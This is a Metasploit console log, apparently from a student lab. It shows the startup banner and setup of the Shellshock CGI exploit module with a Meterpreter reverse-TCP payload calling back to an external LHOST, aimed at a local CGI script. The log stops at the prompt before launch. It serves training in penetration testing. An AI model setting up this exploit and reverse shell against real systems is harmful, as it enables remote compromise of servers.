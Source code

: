 ** Metasploit Framework Initial Setup Complete **

[!] The following modules could not be loaded!../
[!]     /opt/metasploit-framework/embedded/framework/modules/auxiliary/gather/office365userenum.py
[!] Please see /home/student1/.msf4/logs/framework.log for details.
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.0.47-dev-                         ]
+ -- --=[ 2135 exploits - 1138 auxiliary - 365 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: When in a module, use back to go 
back to the top level prompt

[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
RHOST => 127.0.0.1
RPORT => 8081
LHOST => 54.79.241.48
targeturi => /cgi-bin/log-visitor.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > 